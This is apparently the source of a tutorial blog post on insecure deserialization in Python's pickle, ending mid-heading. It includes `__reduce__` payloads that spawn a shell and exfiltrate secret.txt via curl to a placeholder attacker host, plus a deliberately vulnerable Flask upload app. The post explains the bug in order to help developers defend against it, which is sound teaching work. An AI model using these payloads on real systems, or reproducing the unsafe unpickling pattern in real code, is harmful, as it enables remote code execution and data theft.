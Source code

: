 ```yaml
---
title: "Insecure Deserialization: Introduction"
date: 2020-12-22T14:38:40-07:00
draft: false
comments: false
images: ["/images/InsecureDeserializationIntro.jpg"]
tags:
  - insecure-deserialization
  - web

categories:
  - instructional
---
```


Insecure deserialization is a prolific vulnerability that provides a pretty straightforward gateway into unintended RCE - if you're not careful. As of late, I've seen more and more CTFs employ this bug, and more real-word bug bounties deal with this kind of exploit. I figure I could provide a quick introduction into them, and hopefully ensure a few people secure their applications from this. 

## Context

{{< image src="/images/InsecureDeserializationIntro.jpg" alt="intro" position="center" style="border-radius: 8px;" >}}

### What Even is Serialization?
My CPSC210 class I learned the fundamentals of object-oriented programming and the concept of complex abstractions above simple data structures: From simple arrays to instances of objects or classes, with fields and properties holding specific type values. Classes and complex data structures are great and all, but how do you manage them in transit across the web? Can they even be efficiently and losslessly transfered between machines? Or maybe there's some sort of practise we can use to streamline this?

The process of serialization seeks to simplify the concept - it's the act of taking any object and converting it into some workable format of a stream of bytes for ease of transfer and transition. It can be thought of as "flattening" said object and transferring that flattened version to wherever it needs to go. This "flattened version" could be anything from JSON data, XML, maybe just a bunch of bytes, or a specific string - it all depends on the language.

{{< image src="/images/InsecureDeserializationIntro_Serial.jpg" alt="Serial" position="center" style="border-radius: 8px;" >}}

Of course, the opposite process is called deserialization: taking that flattened byte stream and recreating a copy of the original object from it. It will reconstruct any properties, fields from the stream and hopefully present a working replica of the original.

{{< image src="/images/InsecureDeserializationIntro_Deserial.jpg" alt="secret" position="center" style="border-radius: 8px;" >}}

The serialization process is a key component to ensure that all the parts of a system are working together and seamlessly, operating in all sorts of different formats but still managing to easily convert data from some base byte stream into a workable object for their use. But it's not without its own flaws. In many cases, it's not totally lossless. 

### Backup Directives

When serializing objects, one thing to note is that some properties or connections will not completely transfer over during the process. In that case, there should be some sort of backup plan or emergency what-to-do in those situations. This blueprint will vary from language to language, but often you'll see it as some directive that tells the deserializer what to do when it encounters a foreign property. As an example, Python's [pickle](https://docs.python.org/3/library/pickle.html) module - the native serializing library in Python - uses a magic function called `__reduce__()` to stipulate what should be done in case not everything was perfectly translated from their bytestream form. 

`__reduce__()` in particular tells the pickle module how to handle things directly within the definition of the class. Specifying this interface will allow us to manually reconstruct potentially complicated properties, such as database connections or open file handles. Of course, there exist unintended ways of using the ``__reduce__()`` directive. 

## Insecure Deserialization

Serialization is not inherently bad, and it's a very important tool in many infrastructures today. What makes it vulnerable is, like with many different practises, improper handling of its inputs. Insecure deserialization typically arises when applications feed user input into their deserializers, which wasn't properly cleaned/sanitized. 

Refer back to Python's pickle module once more. It uses the `__reduce__()` directive for edge cases where properties are not properly reconstructed from their stream form. However, if the input that you're giving your pickler is from some external user, you lay yourself bare for RCE. 

`__reduce__()` can be used to stipulate potentially dangerous commands, such as opening a reverse shell to a server you control. This is, unfortunately, necessary functionality for the pickle module to have in order to operate smoothly. Consider the following example:

```py
import pickle
import os

class DontDoThis(object):
	def __reduce__(self):
		return (os.system, ("/bin/sh", ))


EvilExample = DontDoThis()

pickle.dump(EvilExample, open("save.p", "wb"))

my_data = pickle.load(open("save.p", "rb"))
```
Observe that this script will deserialize an instance of `DontDoThis`, and will come across the ``__reduce()__`` method. It will then do whatever ``__reduce()__`` tells it to do, which is to open an `sh` shell.

Let's see another example:

_(Some parts omitted)_
```py
import pickle
import os
from flask import Flask, request, redirect, url_for
from werkzeug.utils import secure_filename

app = Flask(__name__)
UPLOAD_FOLDER = '/directory/to/webserver'

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <!doctype HTML>
        <title>Upload new File</title>
        <h1>Upload new File</h1>
        <form method=post enctype=multipart/form-data>
          <input type=file name=file>
          <input type=submit value=Upload>
        </form>
        '''
    if request.method == 'POST':

        file = request.files['file']

        filename = secure_filename(file.filename)
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))

        return "thaaanks!"

...

@app.route('/uploads/<filename>')
def note():
    my_data = pickle.load(filename, "rb")

    return "your file was succesfully deserialized~"
```

I made this toy application to explain this process. The expected application flow is that our program is going to take a file defined by the user and store it in the webserver. For ease of use and convenience, the application _assumes_ that the files provided by the user are able to be deserialized. You can request for an object back, and when you do so, it gets deserialized. 

{{< image src="/images/InsecureDeserializationIntro_fileUpload.png" alt="secret" position="center" style="border-radius: 8px;" >}}

So, the expected input is any sort of user-provided file. What happens when we provide it a file generated from this script?

```py
class Hello(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"hello\"", ))

EvilExample = Hello()


pickle.dump(EvilExample, open("hello.p", "wb"))
```

If you're this far into the blog post, you probably already have a good idea of what could happen to our program. The file we create, `hello.p`, will get serialized, but as soon as we request for it... 

{{< image src="/images/InsecureDeserializationIntro_hello.png" alt="hello" position="center" style="border-radius: 8px;" >}}

Our class will be deserialized, and make a POST request to a webhook with "hello" in the request body. This webhook we have access to, so we can see the POST request after deserialization.

We can extrapolate this example further and open a reverse shell, or have the program unintentially pipe sensitive files to a server we control. 

```py
class Secret(object):
	def __reduce__(self):
		return (os.system, ("curl http://your.server.HERE --data \"$(cat secret.txt)\"", ))

EvilExample = Secret()


pickle.dump(EvilExample, open("secret.p", "wb"))
```

Let's say that there's a file called `secret.txt` in the directory of the application that looks like so:

```text
this is a secret~
```

When we submit the generated file from this script (`secret.p`) and request for it, we can see in our webhook that the contents of `secret.txt` have succesfully been outputed to us in the body of a POST request: 

{{< image src="/images/InsecureDeserializationIntro_secret.png" alt="secret" position="center" style="border-radius: 8px;" >}}

The possibilities are endless. Of course, this is just a toy application I'm running locally to showcase this, but regardless the dangers are still plain to see. RCE is remarkably easy to achieve and scarily straightforward to do if your deserializer is not properly secured. In fact, that's part of the exploit used in hacking [DragonCTF's Harmony Chat](/posts/2020/11/dragonctf-2020-harmony-chat/), although their serializer was a Javascript variant, not a Python one. 

So what's the takeaway here? If you can help it, never deserialize user-provided input. Of course, there do exist situations where you absolutely cannot avoid it, and I would recommend properly sanitized input or some signature that can act as a canary should anything in the user input change. 

Insecure deserialization is a pretty dangerous vulnerability, and also a pretty easy one to exploit if you know where to look for it. As mentioned earlier, it's seeing prolific exposure in the CTF world, and justifiably so - there are many [real world vulnerabilities](https://www.linkedin.com/pulse/equifax-data-breach-apache-struts-vulnerability-kenneth-g-/) today that are based on serialization functionality but don't have the security to match up for it. If you're using serialization libraries or modules, make sure to be careful! 

## Vie

